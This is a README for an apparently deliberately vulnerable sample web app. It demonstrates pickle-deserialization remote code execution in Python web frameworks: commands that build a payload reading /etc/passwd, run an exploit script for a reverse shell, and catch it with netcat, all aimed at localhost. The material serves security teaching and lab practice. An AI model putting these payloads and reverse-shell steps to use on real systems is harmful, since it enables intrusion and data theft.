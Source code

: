 # vulnwebapp
Vulnerable Web Application Sample

===

# Python Web Vuln App

Remote code execution with pickle.  


### Code execution with pickle.

example
```
$ cd python
$ python create_pickle_payload.py "cat /etc/passwd" > getpasswd.pickle
$ python -c 'import pickle; pickle.load(open("getpasswd.pickle"))'

```

### Web Framework and pickle

[pickleを利用した任意のコード実行とPython Web Framework](http://mrtc0.hateblo.jp/entry/2015/12/08/230840)

```
$ cd python/bottle
$ python server.py
```

Launch a reverse shell on target server
```
$ cd python
$ python bottle_exploit.py http://localhost:8000/ ThisIsSecretKey
```

```
$ nc localhost 12345

```

You got shell!!

---

You can exploit this vulnerability in the following frameworks

* Bottle
* Werkzeug
* Flask
* Pylons
* Pyramid
* Django



